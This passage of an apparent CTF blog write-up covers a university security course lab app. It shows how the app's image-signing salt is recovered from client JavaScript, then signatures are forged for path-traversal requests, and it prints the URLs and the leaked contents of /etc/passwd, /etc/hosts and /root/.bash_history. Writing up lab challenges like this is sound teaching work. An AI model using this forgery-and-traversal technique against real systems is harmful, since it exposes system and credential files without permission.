        alert(Y(d, 2) + " (protip: you can copy this from console)"),
        ff())
    }))
}
</pre>

You don't have to brute-force this hash (it's not easily brute-forceable). Instead, just set a breakpoint here and modify `a`'s value during runtime. It sends hashed password to the server and this gives you second flag.

If you can't figure this out, the `Guest Login` button lets you log in without giving you this flag.

After logging in, there's an app selection screen with 4 apps.

![app launcher](/blog/images/2020/09/qos_apps.png)

#### LFI (Local File Inclusion)

Take the app image of handbook v1 as an example, its URL is https://qos.quoccabank.com/api/getappimage?f=handbookv1.png&signature=e0d5d92b7b808beead1cb3335b2e037cd2e79427. This makes people wonder if it's vulnerable to LFI, but first we need to reverse the signature algorithm.

This can be found in the source code:

```
function ef(a, b) {
    var c = df++
      , d = a.toLowerCase().replace(new RegExp(" ".replace(/([-()\[\]{}+?*.$\^|,:#<!\\])/g, "\\$1").replace(/\x08/g, "\\x08"),"g"), "".replace(/\$/g, "$$$$")) + ".png"
      , f = new Zc;
    f.c(d);
    f.c("_this_is_my_secret_salt");
    f = Ob(f.j());
    return {
        id: c,
        name: a,
        image: "/api/getappimage?f=" + d + "&signature=" + f,
        $: b
    }
}
```

You can create your own `Zc` object and call `.c` method to sign your own signature, or just try signing a simple string like `test` to fingerprint the algorithm. It turns out that it's just a simple `sha1(filename+"_this_is_my_secret_salt")`

With this, we can leak the content of the following files:

```
> https://qos.quoccabank.com/api/getappimage?f=../etc/passwd&signature=a8987fc83129fd881d84511e3501951b91d8c8dc
root:x:0:0:root:/root:/bin/bash
adamyi:x:0:0:COMP6443FINAL{CAN_WE_PORT_APP_STORE_TO_QOS_PLEASE.ejUyMzE1MjE=.7wBG2RkFiKbVVX9eBQFhfg==}:/home/adamyi:/bin/bash

> https://qos.quoccabank.com/api/getappimage?f=../etc/hosts&signature=7c5393fb2de9abb095fa63f4d2543d113607af94
127.0.0.1	qos.quoccabank.com qos localhost localhost.localdomain

# dev
127.0.0.1	qos-v2-dev-syd.quoccabank.com

> https://qos.quoccabank.com/api/getappimage?f=../root/.bash_history&signature=bc0d3b2a2640c0396fa0419964479265ce8b1e31
su adamyi

```